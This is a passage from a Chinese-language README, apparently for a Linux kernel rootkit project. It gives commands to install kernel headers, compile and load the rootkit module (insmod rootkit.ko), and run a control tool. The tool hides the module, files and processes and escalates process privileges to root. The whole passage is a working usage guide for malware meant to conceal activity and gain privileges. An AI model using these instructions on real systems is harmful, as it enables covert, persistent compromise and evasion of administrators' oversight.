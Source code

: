 ```bash
# Ubuntu/Debian
sudo apt-get install linux-headers-$(uname -r)

# CentOS/RHEL
sudo yum install kernel-devel-$(uname -r)

# Arch Linux
sudo pacman -S linux-headers
```

### 4. 编译模块

```bash
# 检查环境（确保在Linux系统上）
uname -s  # 应该显示 Linux
ls /lib/modules/$(uname -r)/build  # 确保内核头文件存在

# 编译内核模块和用户态程序
make

# 或者分别编译
make all          # 编译所有
make kernel       # 仅编译内核模块
make userspace    # 仅编译用户态程序
```

### 5. 加载模块

```bash
# 加载rootkit模块
sudo make install

# 或手动加载
sudo insmod rootkit.ko
```

## 使用方法

### 命令行模式

```bash
# 基本用法
sudo ./control <command> [arguments]

# 模块控制
sudo ./control hide_module          # 隐藏模块
sudo ./control show_module          # 显示模块
sudo ./control module_status        # 查看模块状态

# 权限提升
sudo ./control escalate             # 提升当前进程权限
sudo ./control escalate <pid>       # 提升指定进程权限

# 文件隐藏
sudo ./control hide_file /path/to/file     # 隐藏文件
sudo ./control unhide_file /path/to/file   # 取消隐藏文件
sudo ./control list_hidden_files           # 列出隐藏文件

# 进程隐藏
sudo ./control hide_process <pid>          # 按PID隐藏进程
sudo ./control hide_process_name <name>    # 按名称隐藏进程
sudo ./control unhide_process <pid>        # 取消隐藏进程
sudo ./control list_hidden_processes       # 列出隐藏进程

```